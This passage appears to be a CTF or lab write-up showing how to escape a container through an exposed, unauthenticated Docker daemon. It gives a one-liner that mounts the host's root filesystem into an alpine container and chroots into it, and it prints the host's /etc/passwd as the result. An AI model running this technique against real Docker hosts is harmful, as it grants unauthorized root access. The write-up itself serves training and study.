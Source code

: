 <figure><img src=".gitbook/assets/image (353).png" alt=""><figcaption></figcaption></figure>

#### Breaking out of the Docker Instance

When we run `docker -H 10.10.95.235:2375 images` we can see there is alphine 3.9 image available which we can exploit and escape out of docker instance.

We can check `gtfobin` for a quick oneliner for this.

{% code overflow="wrap" %}
```bash
# we have to add the alphine version tag to the cmd too, ie; alphine:3.9
docker -H 10.10.95.235:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh
```
{% endcode %}

And we escaped successfully.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ docker -H 10.10.95.235:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh
# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
hydra:x:1000:1000:Hydra,,,:/home/hydra:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
# 
# 

```
{% endcode %}

